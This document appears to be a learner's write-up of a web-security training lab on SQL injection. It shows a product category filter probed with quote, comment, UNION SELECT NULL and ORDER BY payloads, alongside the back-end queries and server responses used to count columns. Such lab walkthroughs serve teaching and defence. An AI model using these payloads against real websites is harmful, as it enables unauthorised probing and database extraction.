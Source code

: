 # SQL injection UNION attack, determining the number of columns returned by the query

- sqli: product category filter
- end goal: determine the nuber of columns return by the query

### Analysis

- url: `https://0a26006f04f4376180e33fdd00fb0046.web-security-academy.net/`

- front-end: `/filter?category=Pets`
- back-end:
```sql
select * from product where category = 'Pets' and released = 1
```

- check sqli vulnerability
- front-end: `/filter?category='`
- back-end:
```sql
select * from product where category = ''' and released = 1
'-- 500 Internal server error
```
- front-end: `/filter?category='--`
- back-end:
```sql
select * from product where category = ''--' and released = 1
-- 200 OK: this website have sqli vulnerability
```

- front-end: `/filter?category=Pets' union select null--`
- back-end:
```sql
select * from product where category = 'Pets' union select null--' and released = 1
-- 500 Internal Server Error
-- you have to add more null untill you get 200 response
```

- front-end: `/filter?category=Pets' union select null, null, null--`
- back-end:
```sql
select * from product where category = 'Pets' union select null, null, null--' and released = 1
-- 200 OK: this website have 3 columns
```

- I have another technique
- front-end: `/filter?category=Pets' order by 1--`
- back-end:
```sql
select * from product where category = 'Pets' order by 1--' and released = 1
-- 200 OK
```
- this payload didn't give you an error 
- but you can try to change the number untill you see an error like this
- front-end: `/filter?category=Pets' order by 4--`
- back-end:
```sql
select * from product where category = 'Pets' order by 4--' and released = 1
-- 500 Internal Server Error
-- this website output an error that tell me this website have only 3 columns
```
- So, you can shoose these technique to find columns

---
